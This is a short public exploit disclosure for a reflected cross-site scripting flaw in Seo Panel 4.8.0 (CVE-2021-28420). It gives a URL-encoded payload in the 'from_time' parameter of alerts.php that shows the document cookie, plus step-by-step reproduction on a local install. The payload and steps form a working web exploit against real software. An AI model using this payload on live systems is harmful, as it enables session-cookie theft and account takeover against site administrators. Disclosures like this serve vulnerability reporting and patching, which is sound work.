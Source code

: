 XSS
---

    # Exploit Title: Seo Panel 4.8.0 - 'from_time' Reflected XSS
    # Date: 23-03-2021
    # Exploit Author: Piyush Patil
    # Vendor Homepage: https://www.seopanel.org/
    # Version: Seo Panel 4.8.0
    # Tested on: Windows 10 and Kali
    # CVE : CVE-2021-28420

    -Description:
    A cross-site scripting (XSS) issue in Seo Panel 4.8.0 allows remote
    attackers to inject JavaScript via alerts.php and the "from_time" parameter.

    -Payload used:
    x%22%20onmouseover%3dalert(document.cookie)%20x%3d%22

    -Steps to reproduce:
    1- Login to SEO admin panel
    2- Visit: http://localhost/alerts.php?alert_category=general&from_time=x%22%20onmouseover%3dalert(document.cookie)%20x%3d%22&keyword=&to_time=2021-03-11
    3- Hover your mouse to "Period" field